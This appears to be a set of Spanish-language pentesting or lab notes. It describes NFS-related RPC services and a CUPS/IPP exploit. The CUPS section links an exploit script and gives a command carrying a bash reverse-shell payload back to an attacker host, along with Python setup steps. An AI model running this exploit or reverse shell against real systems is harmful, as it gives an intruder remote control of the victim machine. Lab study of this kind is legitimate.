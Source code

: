 -------------------------------------------------------------------------------

3.- RPCBind

Es un servicio que se ejecuta en sistemas UNIX/Linux y se encarga de asignar dinámicamente los puertos de los servicios basados en RPC, como NFS.

Permite que los clientes descubran en qué puerto están escuchando los servicios RPC.

Utiliza el puerto 111 por defecto.


4.- Nlockmgr

Network Lock Manager


Es un servicio auxiliar de NFS que gestiona bloqueos de archivos en un entorno distribuido.

Se encarga de coordinar accesos concurrentes a archivos compartidos, evitando conflictos entre múltiples clientes.

Usa RPC para su funcionamiento y generalmente asigna puertos dinámicos a través de RPCBind.

5.- Mountd

Es parte del sistema NFS (Network File System) y se encarga de gestionar las solicitudes de montaje de sistemas de archivos remotos en un servidor NFS.

Mantiene un registro de los clientes que han montado el sistema de archivos, permitiendo que el administrador vea qué máquinas están accediendo a los recursos compartidos.

-------------------------------------------------------------------------------

6.- ipp 

El servicio IPP (Internet Printing Protocol) que corre en el puerto 631 en Linux es parte del sistema de impresión CUPS (Common Unix Printing System).

CUPS 2.3.3op2 tiene un exploit

https://github.com/IppSec/evil-cups/blob/main/evilcups.py

copiamos el contenido del exploit porque no se puede clonar ya que no es un repositorio, solo es un código en python.

forma de ejecutar:

python3 exploit.py IP-KALI IP-VICTIMA "bash -c 'bash -i >& /dev/tcp/IP-KALI/443 0>&1'"

primero me sale el error que debo instalar ippserver

me sale un error: externally-managed-environment

al hacer pip3 install ippserver que se requiere para el exploit

entonces creamos un entorno virtual 

python3 -m venv ippserver_env

Activamos el entorno

source ippserver_env/bin/activate
